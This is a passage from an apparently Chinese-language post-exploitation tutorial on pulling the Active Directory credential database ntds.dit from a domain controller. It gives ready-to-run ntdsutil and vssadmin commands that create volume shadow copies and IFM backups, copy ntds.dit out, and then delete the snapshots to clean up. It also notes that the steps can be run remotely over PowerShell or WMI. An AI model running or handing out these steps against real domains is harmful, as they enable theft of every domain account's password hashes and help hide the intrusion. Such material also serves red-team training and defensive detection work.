 这样就把`ntds.dit`提取了出来。

接下来卸载并删除该快照：

```powershell
ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit
```

查看系统中的所有快照：

```powershell
ntdsutil snapshot "List all" quit quit
```

如果没有发现快照，或者刚刚生成的快照的GUID找不到说明删除成功。

#### 利用VSSAdmin提取

这个工具是Windows Server 2008和Windows 7提供的VSS管理工具，可用于创建和删除卷影拷贝、列出卷影拷贝的信息（仅限管理系统Provider创建的）、显示已安装的所有卷影拷贝写入程序和提供程序、以及改变卷影拷贝的存储空间大小等。

其操作类似`ntdsutil`。

例如创建一个C盘的卷影拷贝：

```powershell
vssadmin create shadow /for=C:
```

这样会生成一个ID与路径。

接下来将`ntds.dit`拷贝出来：

```powershell
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\windows\NTDS\ntds.dit C:\ntds.dit
```

注意这里的路径是上一个命令提供的，如图：

![image-20220423111238460](./image-20220423111238460.png)

接下来删除快照：

```powershell
vssadmin delete shadows /for=c: /quiet
```

#### 利用vssown.vbs提取

该工具功能与vssadmin类似，Github已经搜不到相关项目了。

此处不提了。

#### 利用ntdsutil的IFM创建卷影拷贝

除了前面的方法，也可以使用创建一个IFM的方式来获取`ntds.dit`数据库。在使用这个方法时，需要仅限快照生成、加载、复制等操作，可以通过Powershell或者WMI远程执行。

在域控中：

```powershell
ntdsutil "ac i ntds" "ifm" "create full c:/test" q q
```
